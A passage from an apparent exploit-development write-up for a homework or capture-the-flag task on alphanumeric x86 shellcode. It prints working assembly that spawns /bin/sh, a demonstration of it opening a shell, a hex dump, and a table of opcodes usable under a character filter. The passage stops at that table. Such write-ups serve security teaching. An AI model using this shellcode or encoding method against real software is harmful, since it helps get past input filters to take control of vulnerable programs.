 ## Encode The Shellcode

I found a helpful Japanese article, which goes through all the processes of
generating an alphanumeric shellcode. But there is one more restriction
(excluding "BINSHbinsh") in the Homework.

First, the most important thing is that finding a workable shellcode that opens
a shell. Following is a normal shellcode that executes `/bin/sh`. It pushes
the instructions into stack and finally jumps to `esp` to execute the code it
just pushed.

```nasm
            /* test.s */
        .intel_syntax noprefix
        .globl _start
_start:
        push 0x80cd0b42
        push 0x8de18953
        push 0x52e3896e
        push 0x69622f68
        push 0x68732f2f
        push 0x6852d231
        jmp esp
```

To prove that it can actually open a shell:

```bash
$ gcc -m32 -nostdlib test.s
$ ./a.out
sh-4.3$
```

But when you look into the content of the binary, you'll discover that it is
not alphanumeric, it contains many non-printable characters. Sadly, most of the
printable characters are not allowed in the problem, i.e. "BINSHbinsh".

```bash
$ objdump -s -j .text a.out

a.out:     file format elf32-i386

Contents of section .text:
 8048098 68420bcd 80685389 e18d686e 89e35268  hB...hS...hn..Rh
 80480a8 682f6269 682f2f73 686831d2 5268ffe4  h/bih//shh1.Rh..
```

The instructions listed below are valid because their opcode are in the range
of alphanumerics.

```text
30      XOR r/m8 r8
31      XOR r/m16/32 r16/32
32      XOR r8 r/m8
33      XOR r16/32 r/m16/32
34      XOR AL imm8
35      XOR eAX imm16/32
38      CMP r/m8 r8
39      CMP r/m16/32 r16/32
40+r    INC r16/32    (except for eax, edx)
48+r    DEC r16/32    (except for eax, ecx, esi)
50+r    PUSH r16/32   (except for ebx)
58+r    POP r16/32    (only for eax, ecx, edx)
61      POPAD
6a      PUSH imm8
6b      IMUL r16/32 r/m16/32 imm8
70-7a   JO/JNO/JB/JNB/JZ/JNZ/JNA/JA/JS/JNS/JP rel8
```
